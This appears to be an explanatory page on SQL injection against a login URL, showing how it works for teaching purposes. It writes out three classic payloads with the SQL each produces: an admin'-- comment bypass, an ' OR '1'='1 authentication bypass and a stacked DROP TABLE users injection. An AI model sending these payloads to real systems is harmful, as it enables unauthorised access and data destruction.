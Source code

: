 ## Why this is dangerous?

An attacker can craft a URL like:

```sql
/login?username=admin'--&password=anything
```

which makes the SQL look like:

```sql
SELECT id, username
FROM users
WHERE username = 'admin'--'
  AND password = 'anything';
```

<br>

- Everything after `--` is treated as a comment, so the `AND password = ...` check is skipped. 
    - effectively logs them in as “admin” without knowing the password.


---

## Demonstration of a Classic Injection

Bypass authentication:

```sql
/login?username=' OR '1'='1&password=' OR '1'='1
```

<br>

```sql
SELECT id, username
FROM users
WHERE username = '' OR '1'='1'
  AND password = '' OR '1'='1';
```

Since `'1'='1'` is always true, the query returns the first user.


---


## Destructive commands

<br>

```sql
/login?username=anything'; DROP TABLE users;--&password=x
```

<br>

```sql
SELECT id, username
FROM users
WHERE username = 'anything';
DROP TABLE users;--'
  AND password = 'x';
```
